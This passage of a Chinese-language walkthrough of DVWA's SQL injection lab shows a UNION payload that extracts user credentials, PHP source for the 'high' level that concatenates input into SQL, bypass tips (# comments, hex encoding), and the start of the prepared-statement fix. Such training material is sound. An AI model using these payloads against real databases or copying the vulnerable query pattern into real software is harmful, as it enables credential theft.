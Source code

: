 7.查询数据。

id=-1 union select 1,(select group_concat(user,password) from dvwa.users)&Submit=Submit

##### high

```
<?php

if( isset( $_SESSION [ 'id' ] ) ) {
    // Get input
    $id = $_SESSION[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);        
}

?> 
```

与medium相比，high级别多了一个limit 1，限制只输出一个结果。但可以通过#将其注释掉。

[![rSvkRK.png](https://s3.ax1x.com/2020/12/08/rSvkRK.png)](https://imgchr.com/i/rSvkRK)

后面多了一个#注释。

步骤同low基本（查询列名时table_name='users' 这里使用16进制绕过一下） 

##### impossible

```
<?php

if( isset( $_GET[ 'Submit' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $id = $_GET[ 'id' ];

    // Was a number entered?
    if(is_numeric( $id )) {
        // Check the database
        $data = $db->prepare( 'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;' );
        $data->bindParam( ':id', $id, PDO::PARAM_INT );
        $data->execute();
        $row = $data->fetch();

        // Make sure only 1 result is returned
        if( $data->rowCount() == 1 ) {
            // Get values
            $first = $row[ 'first_name' ];
```